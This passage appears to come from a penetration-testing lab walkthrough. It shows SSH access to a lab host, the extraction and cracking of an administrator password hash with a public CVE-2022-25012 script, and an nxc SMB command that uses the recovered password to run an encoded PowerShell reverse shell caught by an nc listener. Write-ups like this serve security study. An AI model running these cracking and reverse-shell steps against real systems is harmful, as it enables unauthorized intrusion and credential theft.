 ```
ssh Viewer@192.168.216.179 -i id_rsa
```
![](../attachment/da886b5722a5ca90f2c1cf2ae3f4d3f1.png)
Now we can use the weak password encryption exploit:
![](../attachment/09f1c08353306c6707108dcb502cf79b.png)
![](../attachment/931c16f2afb275faf632b32b20f7fa76.png)
We find 2 password hashes. One is for administrator and another for viewer. We'll crack the administrator hash.
![](../attachment/da8685af3a197e9edd9b515e041d2a9f.png)
Use https://github.com/s3l33/CVE-2022-25012 to crack
```
python3 CVE-2022-25012.py ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8
```
![](../attachment/3244ca3090b8c6dbc29fb5182885a597.png)
![](../attachment/335d591c06480e56626f7abe542f0375.png)

Now to get a shell:
Get payload from revshells.com:
![](../attachment/a08f8268f316da7de204102c73d097f2.png)
```
nxc smb 192.168.216.179 -u Administrator -p '14WatchD0g$' -X 'powershell -e JABjA...G0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA='
```
```
sudo rlwrap nc -nlvp 443
```
![](../attachment/554cfcd08ec495d3d04a4deb94ab6443.png)
